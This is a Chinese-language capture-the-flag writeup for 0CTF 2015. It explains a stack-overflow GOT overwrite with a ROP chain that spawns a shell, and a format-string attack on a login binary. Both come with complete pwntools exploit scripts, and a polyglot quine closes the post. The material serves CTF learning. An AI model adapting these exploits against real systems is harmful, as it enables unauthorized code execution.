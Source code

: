 ```yaml
---
title: 0CTF writeup
author: rk700
layout: post
redirect_from:
  - /writeup/2015/03/31/0ctf-writeup
  - /writeup/2015/03/31/0ctf-writeup/
tags:
  - exploit
  - misc
---
```


周末参加了今年的第二次CTF，0CTF。与BCTF类似，这次的溢出、逆向题目也是非常有水平的，令人大开眼界。下面是我的部分的writeup。

## flaggenerator

这道题的溢出还是比较明显的。在leetify时，一个`h`字符会被变成`1-1`三个字符，从而长度变长，造成栈溢出。但这道题有stack canary保护，如果我们栈溢出修改了返回地址，就会触发`__stack_chk_fail`。而读了一遍伪代码之后并没有发现可以泄露canary的地方，于是肯定会触发调用`__stack_chk_fail`了。

但是，在leetify的最后一步是`strcpy`，而目标`dest`是从栈上取的，源`src`是我们提供的flag（虽然有些字符被leetify了）。`dest`是我们可以覆盖到的，于是，如果我们把`strcpy`的目标地址改为GOT，造成修改`__stack_chk_fail@got`，那么就可以调用我们提供的函数了。

在调用`__stack_chk_fail@got`时，栈顶还是之前`strcpy`的参数。我用的是`leave; ret`，这样把`ebp`设为我们覆盖的一个地址，再跳回leetify的返回地址，那里也是被我们所覆盖的，进而ROP下去。pwntools里好像有写ROP的功能，我不太熟，还是手工构造的。具体地，先`put`打印GOT，获得库函数地址；然后调用程序里一个类似`readline`的函数，将`system`和字符串`/bin/sh`读到固定位置；最后`leave; ret`，执行`system("bin/sh")`。下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    elf = ELF('flagen')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 5149)

    #len=9
    newGOT = [0x080484e6, 0x080484f6, 0x08048506, 0x08048516, 0x08048526, 0xf7e24570, 0x08048546, 0x08048556, 0x08048566]
    leave = 0x080485d8 
    newGOT[0] = leave #leave; ret
    newEbp = 0x0804b610
    newDest = 0x0804b01c #__stack_chk_fail@got
    popRet = 0x08048481 #pop ebx; ret
    newRet = popRet
    puts = 0x08048510 #puts@plt
    read = 0x0804b00c #read@got
    readLine = 0x080486cb
    count = 0x01010101
    sh = newEbp + 4*4 
    bsh = 0xf7f6a3a8

    #0x10c=4*9+77*3+1
    payload1 = "1\n" + "".join([p32(x) for x in newGOT]) + "h"*77 + "a" + p32(newEbp) + p32(popRet) + p32(newDest) + p32(puts) + p32(popRet) + p32(read) + p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
    #total: 4*9+77+1+4*10=154

    conn.recvuntil("Your choice: ")
    conn.send(payload1)

    conn.recvuntil("Your choice: ")
    a1 = conn.recvn(4) 
    readAddr = unpack(a1)
    print(hex(readAddr))

    #system = 0xf7e46d70
    system = readAddr - 0x9aa40
    payload2 = p32(newEbp) + p32(system) + p32(popRet) + p32(sh) + "/bin//sh\n"
    conn.send(payload2)

    conn.interactive()
{% endhighlight %}

## login

这道题是PIE的，所以我调试下断点遇到了一点麻烦。最后我的方法是：在库函数`MD5`下断点，运行到那里后，`finish`回到原程序里，然后一步步走下去。

很明显，我们需要调用读flag文件的那个函数，为此我们需要成为normal user。再新login用户时的`scanf`有问题，这里它用的是`%256s`，这样如果输入256个字符，就会读256个，并添加一个`\x00`在最后。这样，就可以修改那里，成为normal user了。

然后，在隐藏的选项4里，存在format string attack，而且一共有两次。于是我们可以在第一次得到内存地址，然后第二次修改来跳到读flag的函数那里。具体地，通过大量打印内存，我们发现`printf`的第3个参数是栈上的某处，由此可以得到返回地址在栈上的地址；第75个参数是返回地址，由此我们可以得到`.text`的基地址，进而得到读flag的函数的地址。然后，在第二次`printf`时，我们修改返回地址为读flag，就可以在`printf`结束后获得flag了。

下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 10910)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%3$p,%75$p\n1234\n"

    conn.send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')
    print addrs

    stack = int(addrs[0], 16) 
    base = int(addrs[1], 16)-0x12d3
    retAddr1 = stack - 0x8 
    retAddr2 = retAddr1+1
    print hex(retAddr1)
    print hex(base)

    high = (base & 0xff00) >> 8
    print hex(high)

    newHigh = high + 0x11
    part1 = "%8x%11$hhn"
    count = newHigh -8
    print "count 2 is %d" % count

    if count > 13 and count < 100:
        part2 = "aaa%%%dx%%12$hhn" % (count-3)
    elif count > 102:
        part2 = "aa%%%dx%%12$hhn" % (count-2)

    print len(part1)+len(part2)
    print part1+part2

    payload = part1+part2+p64(retAddr1)+p64(retAddr2) + "\n1234\n"

    conn.send(payload)
    conn.interactive()
{% endhighlight %}

## polyglot quine
其实两道题都是考察的它，只不过第一题只要求5种语言里的3种通过即可，第二题则要求5种语言全部通过。第一题我是直接搜索在[http://shinh.skr.jp/obf/](http://shinh.skr.jp/obf/)得到的，它已经满足c, python2, ruby和perl了。但python3还不满足，为此我研究了一下这段代码。

实验发现，python3之所以不满足，是因为python里的`print`会附加一个换行符在最后。为了解决这个问题，代码里用的是`print a%b,`，即在`print`之后添加一个逗号使得不打印换行符。但这只对python2有效，python3就不行了。

经过一番思考，我发现可以通过`rstrip()`去掉结尾的换行符，然后再`print`添加一个换行符，这样就做到了只有一个换行符了，而且这样对python2和python3都可以。下面就是我修改后可以通过5种语言的代码:

{% raw %}
<pre>
 #include/*
s='''*/<stdio.h>
main(){char*_;/*==;sub _:lvalue{$_}<<s;#';<<s#'''
def printf(a,*b):print((a%b).rstrip())
s
#*/
_=" #include/*%cs='''*/<stdio.h>%cmain(){char*_;/*==;sub _:lvalue{%c_}<<s;#';<<s#'''%cdef printf(a,*b):print((a%%b).rstrip())%cs%c#*/%c_=%c%s%c;printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);%c#/*%cs='''*/%c}//'''#==%c";printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);
#/*
s='''*/
}//'''#==
</pre>
{% endraw %}
